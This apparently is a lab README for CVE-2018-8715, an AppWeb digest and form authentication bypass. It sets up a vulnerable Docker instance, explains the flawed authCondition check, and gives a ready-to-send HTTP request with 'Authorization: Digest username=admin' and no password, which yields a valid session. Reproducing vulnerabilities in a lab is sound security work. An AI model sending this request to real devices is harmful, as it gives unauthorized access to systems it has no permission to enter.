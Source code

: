 # AppWeb Authentication Bypass vulnerability (CVE-2018-8715)

[中文版本(Chinese version)](README.zh-cn.md)

AppWeb is an embedded Web Server based on an open source GPL agreement that was developed and maintained by Embedthis Software LLC. It is written in C/C++ and can run on almost any modern operating system. Of course, it aims to provide a Web Application container for embedded devices.

AppWeb can be configured for authentication, which includes the following three authentication methods:

- `basic`, traditional HTTP basic authentication
- `digest`, improved HTTP basic authentication. At this mode, the Cookie will be used to authentication instead of `Authorization` header.
- `form`, HTML based form authentication

In the Appweb versions before 7.0.3, have a logic flaw related to the authCondition function in `http/httpLib.c`. With a forged HTTP request, it is possible to bypass authentication for the `form` and `digest` login types.

Reference linkes:

- https://ssd-disclosure.com/index.php/archives/3676
- https://github.com/embedthis/appweb/issues/610

## Vulnerability environment

Launch an Appweb 7.0.1 server with `digest` authentication by executing the following command:

```
docker-compose up -d
```

To access 'http://your-ip:8080', you need to enter your account password.

## Exploit

The current username is `admin`, so you can use following request to bypass the authentication:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

As you can see, since we did not pass in the password field, the server error occurred with a `200 status code` and the session setting header:

![](1.png)

The page can be accessed normally with this session header:

![](2.png)
